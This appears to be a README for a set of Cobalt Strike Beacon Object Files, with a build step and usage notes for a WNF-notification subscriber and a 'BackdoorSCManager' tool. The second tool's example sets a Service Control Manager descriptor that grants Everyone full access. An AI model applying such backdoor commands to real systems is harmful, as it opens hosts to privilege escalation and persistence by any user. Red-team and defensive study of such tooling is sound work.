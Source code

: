 BOFs
==========

Build all BOFs:

```console
~$ curl -sS https://download.cobaltstrike.com/downloads/beacon.h -o beacon.h
~$ ./make_all.sh
```

## [SubscribeWNF](/SubscribeWNF)

Subscribes to WNF notifications for a number of seconds.

### Help

```
usage:    subscribe-wnf <NUMBER_OF_SECONDS_TO_LISTEN>
example:  subscribe-wnf 10
```

### References

- https://github.com/gtworek/PSBits/tree/master/WNF
- https://www.youtube.com/watch?v=oyshXuCH__w

## [BackdoorSCManager](/BackdoorSCManager)

Backdoors SCManager SDDL.

### Help

```
usage:    backdoor-scmanager <SDDL_TO_SET>
example:  backdoor-scmanager D:(A;;KA;;;WD)
```

### References

- https://twitter.com/0gtweet/status/1628720819537936386
